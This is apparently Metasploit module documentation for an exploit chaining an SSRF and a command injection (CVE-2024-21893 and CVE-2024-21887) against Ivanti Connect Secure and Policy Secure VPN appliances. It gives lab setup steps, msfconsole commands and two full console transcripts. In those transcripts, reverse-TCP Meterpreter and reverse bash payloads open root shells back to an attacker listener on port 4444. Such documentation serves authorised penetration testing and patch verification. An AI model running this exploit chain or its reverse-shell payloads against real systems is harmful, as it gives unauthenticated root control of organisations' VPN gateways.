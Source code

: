 ## Vulnerable Application
This module chains a server side request forgery (SSRF) vulnerability (CVE-2024-21893) and a command injection
vulnerability (CVE-2024-21887) to exploit vulnerable instances of either Ivanti Connect Secure or Ivanti
Policy Secure, to achieve unauthenticated remote code execution. All currently supported versions 9.x and
22.x are vulnerable, prior to the vendor patch released on Feb 1, 2024. It is unknown if unsupported versions
8.x and below are also vulnerable.

## Testing
To test we used Ivanti Connect Secure version 22.3R1 (build 1647), deployed as a virtual appliance for HyperV. The
below steps are for HyperV, but it should be very similar to install on VMWare.

* Signup for a trial to download the file `ps-ics-hyper-v-isa-v-22.3r1.0-b1647-package.zip`
* From this ZIP file, extract the file `ISA-V-HYPERV-ICS-22.3R1-1647.1-VT-hyperv.vhdx`
* Create a new VM in HyperV and specify the VHDX file as the hard drives media.
* Boot the VM and follow the console instructions to install the product.
* After installation completes, you will have created an admin account and password. You can log into the admin
  web interface by visiting https://<TARGET_IP_ADDRESS>/admin in your web browser if you want.

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/http/ivanti_connect_secure_rce_cve_2024_21893`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp`
5. `check`
6. `exploit`

## Scenarios
To support a broad set of available payloads, we support both the Linux and Unix platforms. This allows for native
Linux payloads to be used, but also payloads like Python meterpreter or a Bash shell.

### Automatic (Linux Payload)

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set RHOST 192.168.86.111
RHOST => 192.168.86.111
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2024_21893):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[
                                       ,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.me
                                       tasploit.com/docs/using-metasploit/basi
                                       cs/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connecti
                                       ons
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   FETCH_COMMAND      CURL             yes       Command to fetch payload (Acc
                                                 epted: CURL, FTP, TFTP, TNFTP
                                                 , WGET)
   FETCH_DELETE       false            yes       Attempt to delete the binary
                                                 after execution
   FETCH_FILENAME     XMZdmHhNxYx      no        Name to use on remote system
                                                 when storing payload; cannot
                                                 contain spaces.
   FETCH_SRVHOST                       no        Local IP to use for serving p
                                                 ayload
   FETCH_SRVPORT      8080             yes       Local port to use for serving
                                                  payload
   FETCH_URIPATH                       no        Local URI to use for serving
                                                 payload
   FETCH_WRITABLE_DI  /tmp             yes       Remote writable dir to store
   R                                             payload; cannot contain space
                                                 s.
   LHOST              eth0             yes       The listen address (an interf
                                                 ace may be specified)
   LPORT              4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > check
[*] 192.168.86.111:443 - The service is running, but could not be validated.
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (3045380 bytes) to 192.168.86.111
[*] Meterpreter session 3 opened (192.168.86.42:4444 -> 192.168.86.111:45734) at 2024-02-09 09:21:59 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.111
OS           :  (Linux 4.15.18.34-production)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
meterpreter > exit
[*] Shutting down session: 3

[*] 192.168.86.111 - Meterpreter session 3 closed.  Reason: Died
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > 
```

### Automatic (Unix Payload)

```
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > show options

Module options (exploit/linux/http/ivanti_connect_secure_rce_cve_2024_21893):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[
                                       ,type:host:port][...]
   RHOSTS   192.168.86.111   yes       The target host(s), see https://docs.me
                                       tasploit.com/docs/using-metasploit/basi
                                       cs/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connecti
                                       ons
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > check
[*] 192.168.86.111:443 - The service is running, but could not be validated.
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Command shell session 4 opened (192.168.86.42:4444 -> 192.168.86.111:45736) at 2024-02-09 09:23:15 +0000

id
uid=0(root) gid=0(root) groups=0(root)
cat /home/ssl-vpn-VERSION
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
exit
[*] 192.168.86.111 - Command shell session 4 closed.
msf6 exploit(linux/http/ivanti_connect_secure_rce_cve_2024_21893) > 
```
